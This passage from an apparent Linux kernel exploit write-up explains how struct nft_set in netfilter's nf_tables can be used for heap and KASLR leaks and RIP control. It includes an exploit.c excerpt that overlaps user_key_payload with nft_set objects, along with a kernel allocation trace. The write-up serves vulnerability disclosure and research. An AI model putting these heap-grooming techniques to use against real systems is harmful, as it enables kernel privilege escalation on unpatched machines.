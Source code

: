 ```c
	u8				field_len[NFT_REG32_COUNT];
	u8				field_count;
	u32				use;
	atomic_t			nelems;
	u32				ndeact;
	u64				timeout;
	u32				gc_int;
	u16				policy;
	u16				udlen;
	unsigned char			*udata;
	/* runtime data below here */
	const struct nft_set_ops	*ops ____cacheline_aligned;
	u16				flags:14,
					genmask:2;
	u8				klen;
	u8				dlen;
	u8				num_exprs;
	struct nft_expr			*exprs[NFT_SET_EXPR_MAX];
	struct list_head		catchall_list;
	unsigned char			data[]
		__attribute__((aligned(__alignof__(u64))));
};
```
With some analysis, we found that the `struct nft_set` itself gives the powerful capability to perform both heap leak and KASLR leak, and even RIP control. (refer [Usage of `struct nft_set` as a novel target object section of novel-techniques.md](./novel-techniques.md#usage-of-struct-nft_set-as-a-novel-target-object))
- [exploit/extra-refined/exploit.c#L1093](../exploit/extra-refined/exploit.c#L1093)
```c
// overlapping user_key_payload and nft_set
memset(buf, 0, 0x200);
if ((key = add_key("user", "abcdefghijklmnop", buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
	perror("add_key");

// reclaim it with new set
prepare_reclaim_set(nl, RECLAIM_SET_NAME, NOCG_TARGET_SET_SIZE);
```
Thus, we decide to allocate `struct nft_set` object again to overlap it with `struct user_key_payload` object, regardless of triggering the vulnerability.

Notice that we allocate only one `struct user_key_payload` object. This is because the allocate routines of the `struct nft_set` also trigger allocation on `kmalloc-1k` cache for skb construction. 
```
[   23.912852]  __alloc_skb+0x8f/0x260
[   23.913133]  netlink_sendmsg+0x348/0x4d0
[   23.913438]  sock_sendmsg+0x5f/0x70
[   23.913669]  __sys_sendto+0x113/0x160
[   23.913920]  __x64_sys_sendto+0x20/0x30
[   23.914156]  do_syscall_64+0x42/0x90
```
The call trace above shows the allocation path of the given `cos-105-17412.101.17` kernel image.

